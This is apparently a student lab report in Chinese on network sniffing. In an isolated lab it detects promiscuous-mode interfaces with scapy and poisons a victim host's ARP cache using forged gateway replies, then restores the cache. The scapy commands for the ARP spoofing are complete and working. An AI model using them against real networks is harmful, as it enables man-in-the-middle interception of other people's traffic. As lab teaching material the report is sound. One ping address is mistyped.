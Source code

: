 # 网络监听实验

## 网络拓扑

![网络拓扑图](img/网络拓扑图.png)

如图所示网络中的节点基本信息如下：

+ 网关
  + 08:00:27:0b:6d:2c / en0s9
  + 172.16.111.1
+ 攻击者主机
  + 08:00:27:e9:59:4f / eth2    
  + 172.16.111.142
+ 受害者主机
  + 08:00:27:d4:7e:b8 / eth0   
  + 172.16.111.107

## 实验准备

**安装 scapy**

在攻击者主机上提前安装好 scapy。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![实验准备](img/实验准备.png)



## 实验一：检测局域网中的异常终端

+ 在受害者主机检查网卡的 **[混杂模式]** 是否启用

  ```bash
  ip link show eth0
  
  #2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
  #    link/ether 08:00:27:d4:7e:b8 brd ff:ff:ff:ff:ff:ff
  ```

  ![检查混杂模式是否启用](img/检查混杂模式是否启用.png)

+ 监听

  + 在攻击者主机上开启 scapy

    ```bash
    sudo scapy
    ```

  + 在 scapy 的交互式终端输入以下代码回车执行

    ```bash
    pkt = promiscping("172.16.111.107")
    ```

    ![开启scapy](img/开启scapy.png)

  + ```bash
    # 回到受害者主机上开启网卡的『混杂模式』
    # 注意上述输出结果里应该没有出现 PROMISC 字符串
    # 手动开启该网卡的「混杂模式」
    sudo ip link set eth0 promisc on
    
    # 此时会发现输出结果里多出来了 PROMISC 
    ip link show eth0
    # 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #    link/ether 08:00:27:d4:7e:b8 brd ff:ff:ff:ff:ff:ff
    ```

    ![手动开启混杂模式](img/手动开启混杂模式.png)

  + ```bash
    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    pkt = promiscping("172.16.111.107")
    # Begin emission:
    # Finished sending 1 packets.
    # *
    # Received 1 packets, got 1 answers, remaining 0 packets
    #   08:00:27:d4:7e:b8 PcsCompu 172.16.111.107
    ```

    ![前后对比](img/前后对比.png)

  + 在受害者主机手动关闭该网卡的「混杂模式」

    ```bash
    sudo ip link set eth0 promisc off
    ```

    ![手动关闭混杂模式](img/手动关闭混杂模式.png)



## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
# ###[ Ethernet ]### 
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:e9:59:4f
#   type= ARP
# ###[ ARP ]### 
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:e9:59:4f
#      psrc= 172.16.111.142
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```

![构造ARP请求](img/构造ARP请求.png)

+ 发送 ARP 广播请求

  ```python
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2,iface="eth2")
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```

+ 伪造网关的 ARP 响应包

  ```bash
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.107
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst="08:00:27:e9:59:4f")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  send(arpspoofed)
  ```

  ![发送数据包2](img/发送数据包2.png)

+ 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

  ```bash
  ip neigh
  # 172.16.111.142 dev eth0 lladdr 08:00:27:e9:59:4f STALE 
  # 172.16.111.1 dev eth0 lladdr 08:00:27:e9:59:4f STALE 
  ```

  ![受害者主机查看地址](img/受害者主机查看地址.png)

+ 恢复受害者主机的 ARP 缓存记录

  回到攻击者主机上的 scapy 交互式终端继续执行命令

  ```python
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:0b:6d:2c", pdst="172.16.111.107", hwdst="08:00:27:d4:7e:b8")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  ![伪装网关给受害者发ARP响应](img/伪装网关给受害者发ARP响应.png)

  在受害者主机上尝试 ping 网关

  ```bash
  ping 172.111.16.1
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![ARP缓存恢复成功](img/ARP缓存恢复成功.png)



## 实验小结

+ 在攻击者主机开启 `scapy` 时注意权限 `sudo` ，否则后续会报错。

  ![报错](img/报错.png)

+ 实验二中**发送 ARP 广播请求**后结果如下：

  ```python
  recved = srp(arpbroadcast, timeout=2)
  Begin emission:
  Finished sending 1 packets.
  
  Received 0 packets, got 0 answers, remaining 1 packets
  ```

  解决办法：**scapy 指定网卡发送数据包**

  ```python
  recved = srp(arpbroadcast, timeout=2,iface="eth2")
  ```

  ![发送数据包](img/发送数据包.png)



## 参考资料

+ [在线教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
+ [经验分享：解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)

